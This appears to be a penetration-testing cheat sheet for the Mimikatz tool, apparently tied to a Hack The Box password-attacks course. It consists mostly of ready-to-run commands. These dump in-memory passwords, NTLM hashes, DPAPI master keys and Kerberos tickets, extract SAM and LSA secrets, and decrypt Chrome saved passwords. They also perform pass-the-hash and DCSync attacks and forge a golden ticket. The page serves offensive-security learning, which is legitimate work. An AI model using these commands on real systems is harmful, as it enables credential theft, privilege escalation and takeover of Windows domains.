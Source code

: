 # Mimikatz

[![password_attacks](../../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

<div class="row row-cols-lg-2"><div>

[mimikatz](https://github.com/gentilkiwi/mimikatz) <small>(18.7k ⭐)</small> is the most popular tool to dump Windows credentials or perform attacks such as [Pass-the-hash/Pass-the-ticket](/cybersecurity/red-team/s4.privesc/index.md#pass-the-xxx).

```shell!
PS> .\mimikatz.exe
mimikatz# privilege::debug
mimikatz# # run commands
mimikatz# exit
```

To dump credentials, hashes, tickets, etc. you can use:

```shell!
mimikatz# sekurlsa::logonPasswords full # in memory passwords
mimikatz# sekurlsa::ekeys           # dump rc4+ntlm hashes
mimikatz# sekurlsa::dpapi           # dump DPAPI master key
mimikatz# sekurlsa::tickets /export # dump tickets
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive
mimikatz# lsadump::sam /system:./system.hive /sam:./sam.hive /security:./security.hive
mimikatz# lsadump::lsa /patch
mimikatz# vault::list # list credential manager vaults
mimikatz# vault::cred # list credentials
mimikatz# kerberos::list /export # cat b64 | tr -d '\n' | base64 -d > cn.kirbi
```

To perform a pass-the-hash attack using a `rc4` or `NTML` hash:

```shell!
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:example.com
mimikatz# sekurlsa::pth /user:xxx /rc4:XXX /domain:example.com /run:cmd.exe
mimikatz# sekurlsa::pth /user:xxx /ntlm:XXX /domain:example.com /run:cmd.exe
```
</div><div>

To perform a DCSync attack (Admin required)

```shell!
mimikatz# lsadump::dcsync /user:example\krbtgt
mimikatz# lsadump::dcsync /user:example\krbtgt /domain:example.com
```

We can decrypt secrets encrypted using DPAPI master key using:

```shell!
mimikatz# dpapi::blob /in:"encrypted_file" /unprotect /masterkey:xxx
mimikatz# dpapi::chrome /in:".\Login Data" /unprotect /masterkey:xxx
```

To decrypt chrome passwords:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

Request a TGS ticket:

```shell!
mimikatz# kerberos::ask /target:cn # request TGS for cn
```

📚 See also: [pypykatz](pypykatz.md) for Linux users.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [thehacker.recipes](https://tools.thehacker.recipes/mimikatz)

Golden ticket (Admin not required)

```shell!
mimikatz# kerberos::golden /user:dummy /domain:dev.example.com /sid:<child domain SID> /krbtgt:<hash> /sids:<target domain SID> /ptt
```

Got the following errors and no fix worked. I manually dumped the LSASS memory (40MB!) and analyzed it on Linux. Otherwise, use Impacket secrets dump, it works fine.

```text!
ERROR kuhl_m_sekurlsa_acquireLSA ; Key import
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)
```
</div><div>

If not the default:

```shell!
mimikatz# base64 /out:true
```
</div></div>